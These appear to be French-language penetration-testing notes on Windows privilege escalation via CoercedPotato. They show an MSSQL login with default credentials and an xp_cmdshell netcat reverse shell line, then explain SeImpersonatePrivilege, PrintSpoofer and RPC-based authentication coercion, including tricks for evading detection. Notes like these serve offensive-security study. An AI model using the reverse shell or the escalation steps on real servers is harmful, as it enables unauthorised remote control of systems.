

# CoercedPotato

## Exemple de point de départ

* Compromission d'une base de données MSSQL sur un serveur Windows

```bash
impacket-mssqlclient sa:sa@$TARGET
select @@version;
Microsoft SQL Server 2019
```

* Exécution d'un reverse shell

```
EXEC master..xp_cmdshell 'C:\tmp\nc.exe $TARGET 8888 -e cmd.exe';
nc -lvnp 8888
C:\Windows\system32> whoami
nt service\mssqlserver
```

## Pistes pour l'élévation de privilèges

* Versions des composants et de l'OS
* Identifiants stockés
* Tâches planifiées
* **Privilèges dangereux**
* ...

## Enumérer ses privilèges&#x20;

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
```

\-> SeImpersonatePrivilege = droit qui permet d'exécuter des processus au nom d'un autre utilisateur si cet utilisateur se connecte (légitime dans le cas d'un serveur web , d'une base de données, etc.)

## Principe des privesc de la famille "Potato"

* Forcer une authentification du compte SYSTEM sur un proxy local
* Cette tentative va créer un processus dans le contexte de sécurité du compte SYSTEM
* Exemples : JuicyPotato, PrintSpoofer

\
pipe = ensemble de processus connectés via IPC "Inter-Processus Communication" pour réaliser une tâche. Un pipe non nommé meurt en général avec le processus qui l'a créé.

named pipe = il s'agit d'un pipe persistent qui peut continuer de vivre après la mort du processus qui l'a initié. En général un named pipe est un fichier associé à de sous-processus (interconnectés via IPC).&#x20;

### PrintSpoofer

* Ouverture d'un named pipe
* Coercition d'authentification du compte SYSTEM sur le named pipe en utilisant le Print Spouler d'impression
* Execution d'une commande avec les droits du compte système

Si le Print Spouler est désactivé et par conséquent l'interface RPC MS-RPRN aussi , cette privesc ne fonctionnera pas.

### CoercedPotato

#### Génèse

Né du fait que PrintSpoofer ne fonctionne pas quand le Spouler d'impression est désactivé sur un serveur, ce qui est de + en + le cas.

Méthode de recherche : Etudier toutes les fonctions RPC connues pour faire de la coercition d'authentification (notamment celles utilisées par PetitPotam) pour pallier au fait que la fonction MS-RPRN soit désactivée quand le Print Spouler est désactivé.

#### Fonctionnement :&#x20;

* Ouverture d'un named pipe (utilisation d'un nom aléatoire pour bypass les détections)
* Appel de toutes les fonctions RPC connues pour être vulnerables avec en target le namedpipe ouvert en amont
  * MS-RPRN
  * Si MS-RPRN KO , Appel des fonctions MS-EFSR
* On peut lancer un cmd.exe dans le contexte de l'utilisateur qui s'est connecté (ici SYSTEM)

\-> Il y a également une version qui permet de faire l'élévation de privilèges (les actions sont scindées entre plusieurs processus => détection plus complexe)\


<figure><figcaption></figcaption></figure>






##
